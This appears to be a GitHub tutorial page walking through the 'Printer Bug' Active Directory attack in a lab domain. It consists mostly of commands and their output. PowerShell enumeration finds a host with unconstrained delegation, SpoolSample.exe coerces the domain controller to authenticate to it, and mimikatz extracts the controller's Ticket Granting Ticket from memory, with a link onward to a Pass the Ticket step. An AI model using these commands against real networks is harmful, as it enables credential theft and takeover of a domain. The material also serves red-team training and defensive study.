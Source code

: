 link : https://github.com/leechristensen/SpoolSample


# Printer Bug

there is 2 device :

pc-win10 unconstrained delegation enabled and compromised

odin - Domain controller

we will force DC to authenticate pc-win10 and will extract TGT from memory

checking delegation rights

	PS C:\Users\Administrator> Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properti
	es trustedfordelegation,serviceprincipalname,description


	Description          :
	DistinguishedName    : CN=PC-WIN10,OU=dirtyComputers,DC=valhalla,DC=local
	DNSHostName          : pc-win10.valhalla.local
	Enabled              : True
	Name                 : PC-WIN10
	ObjectClass          : computer
	ObjectGUID           : fdeb115b-fa2a-4948-b65a-f44eae75ad1c
	SamAccountName       : PC-WIN10$
	serviceprincipalname : {TERMSRV/PC-WIN10, TERMSRV/pc-win10.valhalla.local, RestrictedKrbHost/PC-WIN10,
						   HOST/PC-WIN10...}
	SID                  : S-1-5-21-3410397846-649609989-2919355437-2124
	TrustedForDelegation : True
	UserPrincipalName    :
	
	
Check memory for TGT , there is no TGT in memory

	sekurlsa::tickets /export

Force DC to authenticate pc-win10

	PS C:\Users\testuser\Desktop> .\SpoolSample.exe odin pc-win10
	[+] Converted DLL to shellcode
	[+] Executing RDI
	[+] Calling exported function
	TargetServer: \\odin, CaptureServer: \\pc-win10
	Attempted printer notification and received an invalid handle. The coerced authentication probably worked!


Check TGT in memory

	sekurlsa::tickets
	Authentication Id : 0 ; 879231 (00000000:000d6a7f)
	Session           : Network from 0
	User Name         : ODIN$
	Domain            : VALHALLA
	Logon Server      : (null)
	Logon Time        : 25/08/2021 19:44:42
	SID               : S-1-5-21-3410397846-649609989-2919355437-1001

	* Username : ODIN$
	* Domain   : VALHALLA.LOCAL
	* Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
	[00000000]
	Start/End/MaxRenew: 25/08/2021 19:05:53 ; 26/08/2021 05:05:53 ; 01/09/2021 19:05:53
	Service Name (02) : krbtgt ; VALHALLA.LOCAL ; @ VALHALLA.LOCAL
	Target Name  (--) : @ VALHALLA.LOCAL
	Client Name  (01) : ODIN$ ; @ VALHALLA.LOCAL
	Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
	Session Key       : 0x00000001 - des_cbc_crc
	0c2bd7c1b7134a68478aa67e76cda120e73688273c8745388fe89cb82823b586
	Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]


Rest

[Pass the Ticket](https://github.com/vanhohen/ADNinja/blob/main/Tutorials/Pass%20the%20Ticket.md)
